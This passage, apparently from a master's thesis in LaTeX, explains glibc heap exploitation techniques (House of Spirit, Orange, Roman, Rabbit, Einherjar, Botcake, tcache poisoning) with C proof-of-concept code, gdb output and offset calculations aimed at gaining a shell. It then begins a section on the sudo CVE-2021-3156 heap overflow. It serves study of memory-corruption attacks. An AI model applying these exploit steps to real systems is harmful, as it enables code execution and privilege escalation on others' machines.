\makebox[\textwidth][c]{
\includegraphics[height=0.2\textwidth]{gdb4}}
\caption{The victime and p3 pointer}
\label{fig:gdb4}
\end{figure}

Now we overwrite the victim \lstinline{bck} pointer also put the victim in the \sbs{}. The next allocation returns the victim from the \sbs{}; moreover, it write \lstinline{bck} pointer of the \lstinline{bin} in \lstinline{libc} to our controller location which is the \lstinline{bck} pointer of the \lstinline{victim} ``Figure~\ref{fig:gdb4}``.

\begin{lstlisting}[language=c,frame=tlrb]
bin = bin_at (av, idx);
bck = victim->bk;
bin->bk = bck;
\end{lstlisting}

Now the last allocation returns a chunk at our controlled location at the stack, which is now inside the bin's bck pointer.``Figure~\ref{fig:gdb5}``

\begin{figure}[h!]
\makebox[\textwidth][c]{
\includegraphics[height=0.2\textwidth]{gdb5}}
\caption{bck pointer}
\label{fig:gdb5}
\end{figure}

\subsection{The House of Spirits}
\label{subsect:housespirits}
In this attack, an attacker forged a fake chunk inside a controller location like the stack, then overwrote a pointer inside the application in a way pointing to the forged chunk. When the application frees the pointer, it puts our forged chunk inside the bins; as a result, the next \mallocc{} returns our forged chunk instead of the real chunk. All the attacker has to do is forge a chunk in a way that bypasses all libc security checks. Consider the application have a pointer call \lstinline{a}, attacker has a forged chunk called \lstinline{fake_chunks}

\begin{lstlisting}[language=c,frame=tlrb]
unsigned long long *a;
unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));
\end{lstlisting}

Now attacker sets the size of the current chunk and the next chunk.

\begin{lstlisting}[language=c,frame=tlrb]
fake_chunks[1] = 0x40;
fake_chunks[9] = 0x1234;
\end{lstlisting}

At least, the attacker overwrites the pointer to point to the data section of the forged chunk, then releases the pointer.

\begin{lstlisting}[language=c,frame=tlrb]
a = &fake_chunks[2];
free(a);
\end{lstlisting}

The result of such an action is, our fake chunk is at the top of the bin, so the next \mallocc{} return to the attacker's controlled location.

\subsection{The House of Orange}
\label{subsect:houseorange}
The house of orange is different from previous attacks. As we remember, in the previous attack, we use \mallocc{} and free to abuse libc vulnerability, but, In the house of orange, we do not use the \freec{} function at all. In other words, we force the heap manager to free a chunk of the heap without calling the \freec{} function. The final layout of this attack is a combination of \ub{} attacks; also, in the end, we gain shell access.

At first, there is one chunk in the application called the top chunk with the size of 0x21000. The top chunk becomes smaller after allocation; As we mentioned before, when a request has arrived, the heap manager first checks the bins. If there is no suitable chunk in the bins, the heap manager tries to create a new chunk from the top chunk, so what happens if the requested chunk size is bigger than the top chunk? There are two scenarios for such a situation: if the requested size is smaller than 0x21000, extend the top chunk; otherwise, use \mmapc{}. If we can make the heap manager extend instead of \mmapc{}, the old top chunk is inserted into an \ub{} without calling the free function.

To achieve this, we have to meet some security conditions. There is a check for the top chunk inside the libc.
\begin{lstlisting}[language=c,frame=tlrb]
 assert ((old_top == initial_top (av) && old_size == 0) ||
	((unsigned long) (old_size) >= MINSIZE &&
	prev_inuse (old_top) &&
	((unsigned long) old_end & (pagesize - 1)) == 0));
\end{lstlisting}

\begin{enumerate}
	\item Size must be greater than \lstinline{MINSIZE}
	\item \lstinline{Prev_inuse} flag must be set
	\item Top chunk + size must be page align
\end{enumerate}

Now let's put it all together. Consider the following code:

\begin{lstlisting}[language=c,frame=tlrb]
char *p1, *p2;
size_t *top;
p1 = malloc(0x400-16);
 \end{lstlisting}

First, we allocate a chunk with the size of 0x400; as we told, the top chunk size is 0x21000; after we allocate 0x400, the remaining top chunk is 0x20c00; also, consider the \lstinline{prev_inuse} flag the final size is 0x20c01.

\begin{lstlisting}[language=c,frame=tlrb]
top = (size_t *) ( (char *) p1 + 0x400 - 16);
top[1] = 0xc01;
p2= malloc(0x1000);
\end{lstlisting}

Now, we have to change the top chunk size in a way to meet security checks. By set 0xc00 + \lstinline{Prev_flag}, we can bypass the security check. At least, we request a chunk more significant than the top chunk size. In this situation, the heap manager creates a new top chunk where the old one has ended, then calls the free function to free the old top chunk, so the old one moves to an \ub{}.

The first part of the attack finished, now, It's time to talk about \libc{} file structure and abort routine before continuing to the second phase. What's happen if \libc{} detected corruption inside the heap structure? When libc detects any memory corruption, it call the Abort routing automatically. Abort routine flush all file pointers in memory by calling \lstinline{_IO_flush_all_lockp}. Consider a part of code:

\begin{lstlisting}[language=c,frame=tlrb]
struct _IO_FILE *fp;
fp = (_IO_FILE *) _IO_list_all;
while (fp != NULL)
  if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
	 || (_IO_vtable_offset (fp) == 0
	  && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				 > fp->_wide_data->_IO_write_base))
#endif
	 )
	 && _IO_OVERFLOW (fp, EOF) == EOF)
\end{lstlisting}

As you can see, libc keeps file pointers inside \lstinline{_io_list_all}, so, in the corruption situation, all pointers be flush by the use of the \lstinline{io_file} object. When libc allocate a new file structure and \lstinline{fopen} return the pointer, the actual internal structure inside the \libc{} is \lstinline{io_file_plus}, if we take a look at \libc{} code we have:

\begin{lstlisting}[language=c,frame=tlrb]
struct _IO_FILE_plus{
 _IO_FILE file;
 const struct _IO_jump_t *vtable;
};
\end{lstlisting}

As you can see this internal structure keeps \lstinline{_io_file} object alongside a jump virtual table called \lstinline{_io_jump_t}. This virtual table contains a list of pointers to all of the file functions. \lstinline{_io_file} uses a virtual table to call files function. An attacker can forge a fake object, overwrite the pointer to gain control flow of the application.

Our goal is to make \lstinline{_IO_flush_all_lockp} call \lstinline{_IO_OVERFLOW}, also, overwrite \lstinline{_io_list_all} with a forged file pointer in a way \lstinline{_IO_OVERFLOW} point to system function. The result of this action is to open a shell.

The first thing is to calculate the address of \lstinline{_io_list_all} inside the libc. Currently, we have one freed chunk inside the \ub{}, the \lstinline{bk} and \lstinline{fd} pointer is pointed to the main arena of the heap. we can use this address to calculate the \lstinline{_io_list_all} address.

With the help of \emph{blukat} \footnote{\href{https://libc.blukat.me}{\texttt{libc database}}} website, we can find the offset of \lstinline{_io_list_all} based on the \libc{} version. This sample use \libc{-2.23}, so we search inside we site for this specific \libc{} version ``Figure~\ref{fig:offset}``:

\begin{figure}[h!]
 \makebox[\textwidth][c]{
\includegraphics[height=0.3\textwidth]{gdb6}}
 \caption{\lstinline{_IO_LIST_ALL} offset}
 \label{fig:offset}
\end{figure}


Now we have the offset of \lstinline{io_list_all} inside \libc{}, in the next step, with the help of \lstinline{vmmap} command in gdb found the start address of \libc{}, then add offset to \libc{} address to found \lstinline{io_list_all} address in the current execution.
\begin{lstlisting}[language=c,frame=tlrb]
0x00007ffff7a36000 0x00007ffff7bce000 0x0000000000000000 r-x /mnt/vmshare/MasterThesis/libc223/libc.so.6
0x00007ffff7a36000+0x39c520 = 0x7FFFF7DD2520
 -> the address of io_list_all in current execution
\end{lstlisting}



However, this address cannot be calculated in the real-time execution because we do not have the \libc{} address. As we mention, the backward and forward pointer of the freed chunk is a point to heap main arena; also, the offset between the main arena and \lstinline{io_list_all} always fixes; as a result, we can calculate this offset now and use it in real execution
\begin{lstlisting}[language=c,frame=tlrb]
0x7FFFF7DD2520-0x7ffff7dd1b78 = 0x9a8 - > the offset of io_list_all from main arena
\end{lstlisting}

The final result is the below code:

\begin{lstlisting}[language=c,frame=tlrb]
io_list_all = top[2] + 0x9a8;
\end{lstlisting}

For the rest of the attack, we can use an \ub{} attack. As we mentioned before, in an \ub{} attack, we can overwrite the bk pointer with any address; in this case, we want to overwrite \lstinline{io_list_all} with the address of the \ub{}

\begin{lstlisting}[language=c,frame=tlrb]
top[3] = io_list_all - 0x10;
\end{lstlisting}

At least we need to call system function inorder to run the shell:

\begin{lstlisting}[language=c,frame=tlrb]
memcpy( ( char *) top, "/bin/sh\x00", 8);
\end{lstlisting}


As we mentioned, the libc flushes all file pointers inside the \lstinline{io_list_all} link list, which currently overwrites with the address of the \ub{}.
The goal is to gain control of execution with the help of fd pointers. In the real list, the next file pointer is located at \lstinline{base_address}+0x68, if we consider bins, the mentioned address is a \sbs{}[4] which keeps a chunk between 90 to 98. We can conclude, if we manipulate the top chunk size again and set the size of 97, on the next allocation with a smaller size, the heap manager checks chunks in the \ub{} and puts it into corresponding bins which are smallbin[4]. Also, if we check the source code, we can see this size check:

\begin{lstlisting}[language=c,frame=tlrb]
if (__builtin_expect (victim->size <= 2 * SIZE_SZ, 0)
  || __builtin_expect (victim->size > av->system_mem, 0))
  malloc_printerr (check_action, "malloc(): memory corruption",
    chunk2mem (victim), av);
\end{lstlisting}


During iteration over chunks inside the \ub{}, the libc checks the size of the chunk; if the size is smaller than \lstinline{MINSIZE}, then the abort procedure called, and an attack happens.

\begin{lstlisting}[language=c,frame=tlrb]
top[1] = 0x61;
\end{lstlisting}


Now the chain of events is complete, but we have to meet the condition of \lstinline{IO_LIST_ALL}

\begin{lstlisting}[language=c,frame=tlrb]
 FILE *fp = (FILE *) top;
 fp->_mode = 0; // top+0xc0
 fp->_IO_write_base = (char *) 2; // top+0x20
 fp->_IO_write_ptr = (char *) 3; // top+0x28
 size_t *jump_table = &top[12]; // controlled memory
 jump_table[3] = (size_t) &winner;
 *(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8
\end{lstlisting}

Finally, we trigger the attack by one allocation.

\begin{lstlisting}[language=c,frame=tlrb]
 malloc(10);
\end{lstlisting}

\subsection{The House of roman}
\label{houseofroman}
\label{subsect:houseroman}
The main goal of this attack is to get shell access by point the FD pointer to \lstinline{malloc_hock} and write \emph{one-gadget} to \lstinline{malloc_hock} with a combination of \ub{} attack , \fb{}attack and Use after the free attack.

The first step is to get a pointer inside \emph{\lstinline{malloc_hook}}. \lstinline{malloc_hook} lets us modify the behavior of \lstinline{malloc} and \lstinline{free} with a hook function. To achieve this, we create a \fb{} chunk in a way the \lstinline{fd} pointer points to \lstinline{malloc_hook}.
\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* fastbin_victim = malloc(0x60); 
malloc(0x80);
uint8_t* main_arena_use = malloc(0x80);
uint8_t* relative_offset_heap = malloc(0x60);
free(main_arena_use);
\end{lstlisting}

The last \freec{}, put \lstinline{main_arena_use} chunk inside the \ub{}; also, \lstinline{main_arena_use} has a pointer to \lstinline{main_arena+0X68} inside \lstinline{fd} pointer.
Now by request a chunk inside the \fb{} chunk size, we have a chunk that has a pointer to \lstinline{main_arena inside} the \lstinline{fd} pointer.

\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* fake_libc_chunk = malloc(0x60);
\end{lstlisting}

Note that the chunk size is mainly set to 0x60 to put this inside the fast bins 0x70 later. 
In the next step, we free \lstinline{relative_offset_heap} and \lstinline{fastbin_victim} . We free \lstinline{relative_offset_heap} at first, so the heap manager puts \lstinline{relative_offset_heap} inside the \lstinline{fd} pointer to \lstinline{fastbin_victim}. Please take a look at the heap layout.

\begin{lstlisting}[language=c,frame=tlrb]
0x0: fastbin_victim - size 0x70 
0x70: alignment_filler - size 0x90
0x100: fake_libc_chunk - size 0x70
0x170: leftover_main - size 0x20
0x190: relative_offset_heap - size 0x70 
\end{lstlisting}

Now,  \fb{} use a single link list and the \lstinline{fd} pointer of \lstinline{fastbin_victim}, point to \lstinline{relative_offset_heap}. By manipulating the last two bytes of \lstinline{fastbin_victim}, we make it a point to \lstinline{fake_libc_chunk}. Also, as we remember, \lstinline{fake_libc_chunk} had a pointer to \lstinline{main_arens+0x68} inside the \lstinline{fd} pointer.

\begin{lstlisting}[language=c,frame=tlrb]
fastbin_victim[0] = 0x00;
\end{lstlisting}

The final layout of \fb{} would be as below.

\begin{lstlisting}[language=c,frame=tlrb]
fastbin_victim -> fake_libc_chunk ->(main_arena + 0x68).
\end{lstlisting}

We need to change the \lstinline{fd} pointer to \lstinline{fake_libc_chunk} to point to \lstinline{malloc_hook} instead of \lstinline{main_arena + 0x68}.

\begin{lstlisting}[language=c,frame=tlrb]
long long __malloc_hook = ((long*)fake_libc_chunk)[0] - 0xe8;
long long __malloc_hook_adjust = __malloc_hook - 0x23;
int8_t byte1 = (__malloc_hook_adjust) & 0xff; 
int8_t byte2 = (__malloc_hook_adjust & 0xff00) >> 8; 
fake_libc_chunk[0] = byte1;
fake_libc_chunk[1] = byte2;
malloc(0x60);
malloc(0x60);
uint8_t* malloc_hook_chunk = malloc(0x60);
\end{lstlisting}

First, we calculate the address of \lstinline{__malloc_hook}. We have an address inside libc, which keeps inside the \lstinline{fd} pointer of \lstinline{fake_libc_chunk}. We calculate the offset between the start of libc and \lstinline{main_arena+0x68}, which keep in the \lstinline{fd} pointer. In the next step, find the offset of \lstinline{__malloc_hook} inside the libc. The distance between these two offsets is 0xe8.
We want to use  0x7f as a valid \fb{} chunk size; to do that, we subtract \lstinline{__malloc_hook} by 0X23. With two malloc \lstinline{fastbin_victim} and \lstinline{fake_libc_chunk} remove from \fb{}, the final malloc returns the \lstinline{malloc_hook_chunk}.

As we talk before, the \ub{} attack let us write a value in a controlled location. At this stage , we use \ub{} attack in order to change the value inside \lstinline{malloc_hock} with the \lstinline{main_arena + 0x68}. 
\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* unsorted_bin_ptr = malloc(0x80);
malloc(0x30);
free(unsorted_bin_ptr);
__malloc_hook_adjust = __malloc_hook - 0x10;
byte1 = (__malloc_hook_adjust) & 0xff; 
byte2 = (__malloc_hook_adjust & 0xff00) >> 8; 
unsorted_bin_ptr[8] = byte1;
unsorted_bin_ptr[9] = byte2;
malloc(0x80);
\end{lstlisting}
In the last steps, we write a one gadget inside the \lstinline{malloc_hock} and trigger attack with one allocation.
\begin{lstlisting}[language=c,frame=tlrb]
long long system_addr = (long long)dlsym(RTLD_NEXT, "system");
malloc_hook_chunk[19] = system_addr & 0xff;
malloc_hook_chunk[20] = (system_addr >> 8) & 0xff;
malloc_hook_chunk[20] = (system_addr >> 8) & 0xff;
malloc_hook_chunk[22] = (system_addr >> 24) & 0xff;
malloc((long long)shell);
\end{lstlisting}
\subsection{The House of Rabbit}
\label{subsect:houserabbit}
This attack used a \Fb{} and \lstinline{UAF} attack to forge a fake heap chunk for feature uses. As we mentioned before, every fast bin keeps a single size chunk with a single linked list. What happens if we change a chunk inside the \fb{}? In allocation, \fb{} detects the abnormal size so aborts the allocation. If we force the heap manager to call \mallocc{} inorder to consolidate, this chunk merge and split into \sbs{}. As a result, we have two valid but forged chunks in a \sbs{} which overlap which other. Consider the following code:

\begin{lstlisting}[language=c,frame=tlrb]
unsigned long *a = malloc(0x40);
unsigned long *b = malloc(0x40);
unsigned long *c = malloc(0x10);
\end{lstlisting}

First, we allocate two chunks with the third chunk to prevent merging chunks with the top chunk after calling \freec{}.

\begin{lstlisting}[language=c,frame=tlrb]
free(a);
free(b);
a[-1]=0xa1;
\end{lstlisting}

Now if freed the chunks and use the UAF attack to change the size of the first one we have the below layout ``Figure~\ref{fig:gdb9}``.

\begin{figure}[h!]
 \makebox[\textwidth][c]{
\includegraphics[height=0.2\textwidth]{gdb8}}
 \caption{\fb{}}
  \label{fig:gdb8}
\end{figure}

Now with a single big allocation we have ``Figure~\ref{fig:gdb9}``.
\begin{figure}[h!]
 \makebox[\textwidth][c]{
\includegraphics[height=0.12\textwidth]{gdb9}}
 \caption{\sbs{}}
  \label{fig:gdb9}
\end{figure}

As we can see, now we have two valid forged chunks inside the \sbs{} which have overlap with each other.

\subsection{The House of Einherjar}
\label{subsect:houseein}
In this attack, the goal is to force \mallocc{} to return a chunk in any given address by use of the free function. Consider the free function:

\begin{lstlisting}[language=c,frame=tlrb]
/* consolidate backward */
if (!prev_inuse(p)) {
  prevsize = prev_size(p);
  size += prevsize;
  p = chunk_at_offset(p, -((long) prevsize));
	unlink (off, p, bck, fwd);
}
 \end{lstlisting}
If the \lstinline{prev_inuse} flag is zero, in the time of free function calls, it tries to merge the current chunk with the previous chunk. The calculation of merged chunk size is the size of the current chunk and the previous chunk. Before continue we have to mention the basis of the attack. As we mentioned, \libc{} share metadata at the end of the chunk with metadata at the beginning of the next chunk ``Figure~\ref{fig:gdb10}``.

\begin{figure}[h!]
 \makebox[\textwidth][c]{
\includegraphics[height=0.3\textwidth]{gdb10}}
 \caption{chunk layout}
 \label{fig:gdb10}
\end{figure}

By considering the merge code of the free function, we can tell if we have control over \lstinline{prev_size}, and \lstinline{prev_inuse} flag, we can have control over the new chunk location.
Consider the following sample, first, we need a chunk inside the heap, also, we need a fake chunk in any location. For this example we use the stack for fake chunk:
\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* a;
a = (uint8_t*) malloc(0x38);
int real_a_size = malloc_usable_size(a);
size_t fake_chunk[6];
fake_chunk[0] = 0x100; // prev_size is now used and must equal fake_chunk's size to pass P->bk->size == P->prev_size
fake_chunk[1] = 0x100; // size of the chunk just needs to be small enough to stay in the \sbs{}
fake_chunk[2] = (size_t) fake_chunk; // fwd
fake_chunk[3] = (size_t) fake_chunk; // bck
fake_chunk[4] = (size_t) fake_chunk; //fwd_nextsize
fake_chunk[5] = (size_t) fake_chunk; //bck_nextsize
 \end{lstlisting}

Now we need another chunk inside the heap:

\begin{lstlisting}[language=c,frame=tlrb]
b = (uint8_t*) malloc(0xf8);
int real_b_size = malloc_usable_size(b);
uint64_t* b_size_ptr = (uint64_t*)(b - 8);
\end{lstlisting}

Now we use \lstinline{a} in order to overflow and manipulate the size of \lstinline{b}.

\begin{lstlisting}[language=c,frame=tlrb]
a[real_a_size] = 0;
\end{lstlisting}

 Now it is time to set \lstinline{prev_size} of our fake chunk to an in order to merge it with our fake chunk.

\begin{lstlisting}[language=c,frame=tlrb]
size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
*(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;
fake_chunk[1] = fake_size;
\end{lstlisting}

The final step is free \lstinline{b} after free \lstinline{b} it is merged without fake chunk, so next \mallocc{} returns our fake chunk.

\begin{lstlisting}[language=c,frame=tlrb]
free(b);
d = malloc(0x200);
\end{lstlisting}


\subsection{ The House of Botcake}
\label{subsect:housebotcake}
The goal is to bypass \libc{} security checks in newer versions to perform a \tch{} double-free attack.
Consider the following code, like always, first; we assume our target is at the stack.

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t stack_var[4];
\end{lstlisting}
Now, we allocate seven chunks to fill up the \tch{} in the future. As we remember, we did this trick before too.

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *x[7];
for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
	x[i] = malloc(0x100);
}
\end{lstlisting}

The next step is to define a chunk to merge \lstinline{prev} and define the victim \lstinline{a}; also, we define a small chunk to prevent merge chunks with the top chunk after free.

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *prev = malloc(0x100);
intptr_t *a = malloc(0x100);
malloc(0x10);
\end{lstlisting}

As we mention, we need to fill up \tch{}, so, we perform the free function on the 7 chunks, as the result, heap manager force to use the \ub{} and other bins:

\begin{lstlisting}[language=c,frame=tlrb]
for(int i=0; i<7; i++){
  free(x[i]);
}
\end{lstlisting}

Now the tcahe is full. We perform the free function on the \lstinline{prev} and \lstinline{a}.

\begin{lstlisting}[language=c,frame=tlrb]
free(a);
free(prev);
\end{lstlisting}

The result of the above is to consolidate the ‘prev’ chunk with the victim ‘a’\glnote{Again, use lstinline for identifiers, not single quotes; be consistent} ``Figure~\ref{fig:gdb11}``. Attention to the size and the address of the chunk:

\begin{lstlisting}[language=c,frame=tlrb]
Before:
unsorted_bins[0]: fw=0x555555559b10, bk=0x555555559b10
Chunk(addr=0x555555559b20, size=0x110, flags=PREV_INUSE)

After
unsorted_bins[0]: fw=0x555555559a00, bk=0x555555559a00
Chunk(addr=0x555555559a10, size=0x220, flags=PREV_INUSE)
 \end{lstlisting}

\begin{figure}[h!]
 \makebox[\textwidth][c]{
\includegraphics[height=0.1\textwidth]{gdb11}}
 \caption{a and prev pointers}
 \label{fig:gdb11}
\end{figure}

In the next step, with the help of UAF and double-free attack, we put back the victim in the \tch{}

\begin{lstlisting}[language=c,frame=tlrb]
malloc(0x100);
free(a);
\end{lstlisting}

The above procedure has another result, too; now we have two chunks that overlap too. For the rest of the attack, we perform a \tch{} poisoning. First, define a victim and overwrite the fd pointer pointing to the target, then two allocations. The last allocation has control over the target.``Figure~\ref{fig:gdb12}``

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *b = malloc(0x120);
b[0x120/8-2] = (long)stack_var;
malloc(0x100);
intptr_t *c = malloc(0x100);
\end{lstlisting}

 \begin{figure}[h!]
 \makebox[\textwidth][c]{
\includegraphics[height=0.1\textwidth]{gdb12}}
 \caption{\tch{}}
 \label{fig:gdb12}
\end{figure}

\section{\tch{} poisoning}
\label{sect:tchpoison}
This attack is specially designed for \tch{} bins, as a result, the \tch{} attack won't work on the older version of libc which does not have \tch{}. The final goal is to force \tch{} to return a chunk in a controlled location for example the stack. consider the following code:

\begin{lstlisting}[language=c,frame=tlrb]
size_t stack_var;
intptr_t *a = malloc(128);
intptr_t *b = malloc(128);
free(a);
free(b);
\end{lstlisting}

\begin{lstlisting}[language=c,frame=tlrb]
Tcachebins[idx=7, size=0x90] count=2 Chunk(addr=0x555555559330, size=0x90, flags=PREV_INUSE) Chunk(addr=0x5555555592a0, size=0x90, flags=PREV_INUSE)
\end{lstlisting}

The controller location in this sample is a variable inside the stack. In the next step, we allocate and free two chunks. We should mention, in newer versions of \libc{}, this chunk adds to \tch{}.
In the second step we overwrite the fd pointer of chunk ‘b’:

\begin{lstlisting}[language=c,frame=tlrb]
b[0] = (intptr_t)&stack_var;
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Tcachebins[idx=7, size=0x90] count=2 Chunk(addr=0x555555559330, size=0x90, flags=PREV_INUSE) Chunk(addr=0x7fffffffde68, size=0x7ffff7fc7fc8, flags=) Chunk(addr=0x555555555410, size=0x9066c3c9fffffcc0, flags=NON_MAIN_ARENA) [Corrupted chunk at 0x8d4c5741fa1e0ff3]
\end{lstlisting}

Now, as you can see in the final layout of \tch{}, the previous chunk is not valid anymore, it is a controller located in the stack:
\begin{lstlisting}[language=c,frame=tlrb]
[ 0x555555559330 -> 0x7fffffffdee8 ]
\end{lstlisting}
In the final step with one allocation, we can remove top chunk from the \tch{}, so, the next allocation return our controller location (the size must be the same):
\begin{lstlisting}[language=c,frame=tlrb]
malloc(128)
intptr_t *c = malloc(128);
\end{lstlisting}
\chapter{In real world}
\glnote{I think it's better to present real-world cases in the introduction, as motivating examples of why this research is important}
In this chapter we have a brief overview on some of the must new founded vulnerability inside \emph{sudo}.
\section{Heap-Based Buffer Overflow in Sudo}
Its great importance is not hidden from anyone, \lstinline{sudo} stood for \emph{supper user do}. As the name suggests, it is an application for \lstinline{unix-like} operating system which allows users to execute a program under a root user privilege. The \lstinline{Qyalys} \footnote{\href{https://blog.qualys.com/vulnerabilities-threat-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit}{\texttt{CVE-2021-3156}}}. researcher recently found a heap overflow vulnerability inside the \lstinline{sudo}. This vulnerability causes that a normal privileged user gets root privileges without authorization. sounds dangerous especially when we know the vulnerability available in many major \lstinline{unix-like} operating systems like \lstinline{MacOs}. First, we discuss how they found it while no one else could for almost decades, then we introduced the technical detail about exploitation.

Although it may not be entirely relevant to the topic of the thesis, the first question that arises is how this bug was discovered. Knowing this may help you to better understand the Sudo. Fuzzing is an automatic software testing that provides invalid input data to target programs to monitor program behavior. Afl stands for American fuzzer looper is a free fuzzer software that employs a genetic algorithm to generate the best unexpected input for the program. These two play an important role in found software vulnerability. We should consider Sudo is not just a normal program as the others, so, in order to test sudo some modification was needed. AFL read input data from a file and pass it as an argument, so, it would not fuzz argument by default. In order to fuzz the argument of a program a header file is provided by AFL developers.
\begin{lstlisting}[language=c,frame=tlrb]
/AFL/
main(int ... argc){
	AFL_INIT_ARGV()
}
\end{lstlisting}

